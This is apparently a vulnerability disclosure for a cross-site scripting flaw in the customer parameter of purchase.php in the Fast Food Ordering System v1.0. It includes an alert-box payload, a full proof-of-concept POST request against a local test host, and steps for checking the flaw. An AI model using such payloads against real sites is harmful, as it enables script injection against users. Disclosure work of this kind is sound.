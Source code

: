 # Vulnerability Description

[Fast Food Ordering System v1.0](https://www.campcodes.com/projects/php/creating-an-admin-side-fast-food-ordering-system/) was discovered to contain a cross-site scripting (XSS) vulnerability via the purchase.php. It is an open source project from [campcodes.com](https://www.campcodes.com). This vulnerability allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the customer parameter.

1. Vulnerability Submitter: Tr0e
  
2. vendors: [Fast Food Ordering System v1.0](https://www.campcodes.com/projects/php/creating-an-admin-side-fast-food-ordering-system/);
  
3. The program is built using the xmapp/v3.3.0 and PHP/8.1.10 version;
  
4. Vulnerability location: /fastfood/purchase.php
  

# Vulnerability Verification

[+] Payload:

```java
<script>alert("XSS")</script>
```

POC：

```js
POST /fastfood/purchase.php HTTP/1.1
Host: 192.168.0.111:91
Content-Length: 259
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.111:91
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.0.111:91/fastfood/order.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=rbcvgagjbbad1bbrbb62nukgmc
Connection: close

quantity_0=&quantity_1=&quantity_2=&quantity_3=&quantity_4=&quantity_5=&quantity_6=&quantity_7=&quantity_8=&quantity_9=&quantity_10=&quantity_11=&productid%5B%5D=23%7C%7C12&quantity_12=10&customer=<script>alert("XSS")</script>
```

## How to verify

Build the vulnerability environment according to the steps provided by the source code author and execute the Payload provided above.

The vulnerability is located at the "Order - Save" function, you shuold inserts Payload when you save order，as shown in the following figure：
![image](https://user-images.githubusercontent.com/42080954/194595437-452ba234-f015-4723-a4de-98a79de6a818.png)
![image](https://user-images.githubusercontent.com/42080954/194595547-241e7ade-345c-4d13-89d6-4392852146c6.png)

